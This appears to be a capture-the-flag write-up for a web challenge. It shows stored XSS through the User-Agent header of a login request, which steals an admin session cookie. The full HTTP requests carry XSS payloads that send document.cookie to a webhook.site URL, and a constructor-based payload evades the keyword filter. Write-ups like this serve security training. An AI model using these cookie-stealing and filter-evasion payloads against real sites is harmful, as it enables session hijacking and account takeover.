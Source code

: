 ### Forbidden code
Level: Hard

Imagination is more important than knowledge.

### Solution

See the admin panel, the registration form, we go through registration, we get to the Control Plane page, where authentication statistics are displayed.

![](img/01.png)

Try searching for sql injection and xss. We send the payload in the User-Agent header:

```
POST /login.php HTTP/1.1
Host: 62.173.140.174:36000
Content-Length: 31
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: --><script>alert(1);</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=codeby123&password=111
```

We go to the Control Plane page and validate the XSS. We create a payload to pull out the admin cookie, for this we bid a webhook page at https://webhook.site/. Sending payload:

```
POST /login.php HTTP/1.1
Host: 62.173.140.174:36000
Content-Length: 31
Content-Type: application/x-www-form-urlencoded
User-Agent: --><embed/src="https://webhook.site/dff40e0c-d4eb-4903-aa97-89b2d1dd14e6?Cookie="+document.cookie>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=admin&password=111
```

On the webhook page we receive a connection, but without the cookie parameter. Input is filtered for cookie value, eval value, etc. Bypass the filter with a payload:
```
--><script>[]["filter"]["constructor"]('document.write("<img src=https://webhook.site/dff40e0c-d4eb-4903-aa97-89b2d1dd14e6?" + bt' + 'oa(document.coo' +'kie) + "></img>")')()</script>
```

![](img/02.png)

Get the admin cookieUEhQU0VTU0lEPWZwY3NxbmRycjY1cW91dWI1cnJiZ2poZ2c2 in base64. Decode and login admin panel.

```
echo UEhQU0VTU0lEPWZwY3NxbmRycjY1cW91dWI1cnJiZ2poZ2c2 | base64 -d                                                
PHPSESSID=fpcsqndrr65qouub5rrbgjhgg6%%
```
![](img/03.png)

get flag: CODEBY{m1ss_th3_cl13nt_att4cks?}
